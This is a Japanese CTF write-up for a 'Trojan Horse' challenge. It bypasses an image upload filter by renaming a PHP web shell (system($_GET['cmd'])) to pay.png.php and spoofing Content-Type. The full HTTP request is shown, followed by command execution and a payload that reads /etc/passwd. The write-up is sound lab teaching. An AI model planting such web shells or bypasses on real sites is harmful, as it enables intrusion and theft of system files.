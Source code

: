 # Challenge Name: Trojan Horse
***
画像ファイルをアップロードできるサイト
![aa](https://github.com/xn16h7/CTF/blob/master/img/writeup6.png)

バックドアシェルをアップロードしてみる
色々試した結果ファイル名とContent-Typeを書き換えるとbypassが可能だった
ファイルの中身を見ているときはファイルの先頭に拡張子にあわせて今回だと臼NGとかを入れることでbypassできる可能性があるらしい

ファイル名をとペイロードを下記のようにしてみた。  
queryにcmdパラメータを入れてコマンド実行できる

> pay.png.php
~~~
<?
system($_GET['cmd']);
?>
~~~

Content-Type: application/octet-stream  
⇒Content-Type: image/pngに変更してリクエストを送信することでbypassができる


~~~
POST /trojan/ HTTP/1.1
Host: 18.194.166.81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------250722975826467346882742916592
Content-Length: 650
Origin: http://18.194.166.81
Connection: close
Referer: http://18.194.166.81/trojan/
Upgrade-Insecure-Requests: 1

-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="name"


-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="email"


-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="image"; filename="pay.png.php"
Content-Type: image/png

<?
system($_GET['cmd']);
?>
-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="submit"

Submit
-----------------------------250722975826467346882742916592--
~~~

アップロードに成功した。
![aa](https://github.com/xn16h7/CTF/blob/master/img/%E2%91%A1writeup6.png)


下記のようにクエリにしてOSコマンドを実行してみるとlsコマンドが実行できた。
18.194.166.81/trojan/uploads/b804e095f705962280b4b4102d58c3d6.php?cmd=ls
![aa](https://github.com/xn16h7/CTF/blob/master/img/%E2%91%A2writeup6.png)

flagがなかったので
問題文でパスワードがプレーンtextって書いてあったので下記payloadを送ってPHPを実行する。
~~~
<?php
    system("cat /etc/passwd");
?>
~~~
![aa](https://github.com/xn16h7/CTF/blob/master/img/%E2%91%A3writeup6.png)

### SBCTF{unr3s7r1c73d_f1l3_upl04d_1s_d4ng3r0us}

